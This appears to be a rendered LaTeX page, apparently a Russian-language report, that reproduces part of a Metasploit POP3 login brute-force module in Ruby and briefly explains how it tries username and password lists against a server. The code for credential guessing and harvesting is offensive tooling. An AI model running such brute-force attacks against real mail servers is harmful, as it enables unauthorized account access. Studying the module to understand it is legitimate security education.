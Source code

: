 \documentclass[a4paper, 14pt]{article}				%
\begin{document}
\begin{Verbatim}[frame=single]
    scanner.scan! do |result|
      credential_data = result.to_h
      credential_data.merge!(
          module_fullname: self.fullname,
          workspace_id: myworkspace_id
      )
      case result.status
      when Metasploit::Model::Login::Status::SUCCESSFUL
        print_brute :level => :good, :ip => ip, :msg => 
        "Success: '#{result.credential}'
         '#{result.proof.to_s.gsub(/[\\r\\n\\e\\b\\a]/, ' ')}'"
        credential_core = create_credential(credential_data)
        credential_data[:core] = credential_core
        create_credential_login(credential_data)
        next
      when Metasploit::Model::Login::Status::UNABLE_TO_CONNECT
        if datastore['VERBOSE']
          print_brute :level => :verror, :ip => ip, :msg =>
           "Could not connect: #{result.proof}"
        end
      when Metasploit::Model::Login::Status::INCORRECT
        if datastore['VERBOSE']
          print_brute :level => :verror, :ip => ip, :msg =>
           "Failed: '#{result.credential}',
            '#{result.proof.to_s.chomp}'"
        end
      end

      # If we got here, it didn't work
      invalidate_login(credential_data)
    end
  end

  def service_name
    datastore['SSL'] ? 'pop3s' : 'pop3'
  end
end
\end{Verbatim}
Скрипт пытается пройти аутентификацию на pop3 сервере. Скрипт ищет файлы с именами пользователей и паролями и применяет данные, найденые в них. Функция service\_name возвращает имя сервиса. Функция run\_host(ip) запускает само сканирование. Функция target возвращает адрес:порт атакуемой машины.

\newpage
\end{document}
